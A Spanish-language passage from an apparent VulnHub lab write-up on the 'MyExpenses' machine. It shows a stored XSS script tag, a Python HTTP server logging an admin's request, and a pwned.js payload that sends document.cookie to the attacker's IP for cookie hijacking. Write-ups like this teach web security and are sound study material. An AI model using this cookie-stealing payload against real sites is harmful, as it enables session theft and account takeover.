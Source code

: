En este punto crearemos un nuevo usuario insertando una etiqueta `script` la cual apunte a un recurso de nuestro equipo y comprobaremos si hay algún usuario que acceda al panel de admin. Levantamos un servidor http con python y esperamos a ver que pasa...

<img src="/assets/VH/MyExpenses/random.png">

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.144 - - [09/Feb/2023 10:58:42] code 404, message File not found
192.168.1.144 - - [09/Feb/2023 10:58:42] "GET /pwned.js HTTP/1.1" 404 -
```

Ojo! parece que algún usuario ha accedido al panel de admin. En este punto vamos a crear un recurso `pwned.js` en el cual insertaremos código JavaScript para acontecer un ataque de Cookie Hijacking. Creamos archivo y lo servimos mediante servidor http

```js
❯ cat pwned.js
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pwned.js
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ var request = new XMLHttpRequest();
   2   │ request.open('GET', 'http://192.168.1.148/?pwned.js=' + document.cookie);
   3   │ request.send();
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
